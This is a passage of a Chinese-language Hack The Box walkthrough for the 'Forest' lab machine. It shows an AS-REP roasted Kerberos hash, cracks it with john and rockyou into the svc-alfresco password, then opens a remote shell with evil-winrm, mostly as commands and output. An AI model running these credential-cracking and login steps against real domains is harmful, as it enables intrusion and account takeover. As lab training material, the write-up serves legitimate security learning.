 
得到一个票据
```
┌──(root💀kali)-[~/htb/Forest]
└─# cat hashes.asreproast 
$krb5asrep$23$svc-alfresco@HTB.LOCAL:25119f5d1377a724caa46729ed033266$371a8d9e8f8913675cc79afc8e2e233a99fb375f45967e9999c7f3cd04c5cfdd427c52ebde622f0afe9a2a60f9c20bcac9bf8ac53807cf082eccef75b850ae3f07281f22bba083b10b97ea4a4bb7266618a1cbf92db7168d034789e3c5da54fec6adfbef667fbeff8d649f0c8b49183bf7bc188385e2e4589d482a1104787e1a079949cdc54a472a0a5ff79b59100a7a3c815830711404e829e7e3b9b984ffae71d7ab38a2ee88e5dc8916d8b28d63240d97c7e59daac9e8155ee13e64878ff9f7bf6d648d502f4d9ab3589faf4835ac659c315ff0e512a0104da788e586b07a46158b6e90b7

```


john爆破
```
┌──(root💀kali)-[~/htb/Forest]
└─# john --wordlist=/usr/share/wordlists/rockyou.txt hashes.asreproast 
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 128/128 AVX 4x])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
s3rvice          ($krb5asrep$23$svc-alfresco@HTB.LOCAL)
1g 0:00:00:03 DONE (2022-01-04 11:12) 0.2985g/s 1219Kp/s 1219Kc/s 1219KC/s s401447401447401447..s3r2s1
Use the "--show" option to display all of the cracked passwords reliably
Session completed

```


现在我们有了一个凭证：```svc-alfresco : s3rvice```

使用evil-winrm登录，拿到foodhold
```
┌──(root💀kali)-[~/htb/Forest]
└─# evil-winrm -i 10.10.10.161 -u 'svc-alfresco' -p 's3rvice'

Evil-WinRM shell v3.3

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> whoami
htb\svc-alfresco

```
